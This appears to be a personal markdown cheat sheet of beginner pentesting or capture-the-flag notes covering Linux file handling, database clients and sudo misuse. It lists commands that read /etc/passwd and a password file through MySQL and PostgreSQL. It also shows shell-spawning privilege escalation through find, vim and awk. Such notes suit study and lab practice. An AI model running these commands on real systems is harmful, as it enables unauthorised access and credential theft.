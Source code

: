 
## Day 1
#### find /dir -type f-name name -exec grep -H '^keyword' {} \;

### Decompressing files
#### tar -xjf file.tbz
#### tar -xzf file.tgz
#### bunzip2 file.bz2

### Encrypting and Decrypting files with openssl
https://robertheaton.com/2013/07/29/padding-oracle-attack/
#### openssl enc -d -aes256 -k KEY -in enc.tgz.enc -out out.tgz

#### Data stays longer in /var/tmp then /tmp dir

### Cronjobs
Never leave credentials in cron jobs.

<!-- $1 = md5crypt $5 = sha256 $6 = sha512 -->
### See services runing in a system
#### ps -edf

### Intresting Directory
#### /var/lib/mysql/mysql

### Read arbitary file when logged in as mysql using load_file() function
#### SELECT LOAD_FILE('/var/lib/password.txt');

### Postgresql 
#### psql 

| List Database | Connect To Database | List Tables | Read Data from Tables | Create Table |
| ---|---| --- | --- | --- |
| \list | \c database_name | \d | SELECT * FROM table_name; | CREATE TABLE tname(column data); |

| Copy Arbitary File to Table | DELETE TABLE |
| --- | --- |
| COPY tname '/etc/passwd'; | DROP TABLE tname; |

### Sqlite 
Poratble Database
|List Tables| Read Data From Table |
|---| -- |
|.tables| SELECT * FROM tablename;|

### Privilege Escalation abusing find command
##### sudo -u user find /etc -name passwd -type f -exec bash \;
##### sudo -u user find /usr/bin -name password.txt -type f -exec cat {} \;

### Privilege Escalation abusing vim
##### sudo -u user vim -c ':!/bin/sh'

### Privilege Escalation abusing awk
##### sudo -u user awk 'BEGIN {system("/bin/sh")}'
##### sudo -u user awk {'print $1'} ~/flag.txt

### Create wordlist for testing opensource projects
#### find | sed 's/\.//g' > ffufwordlist.txt

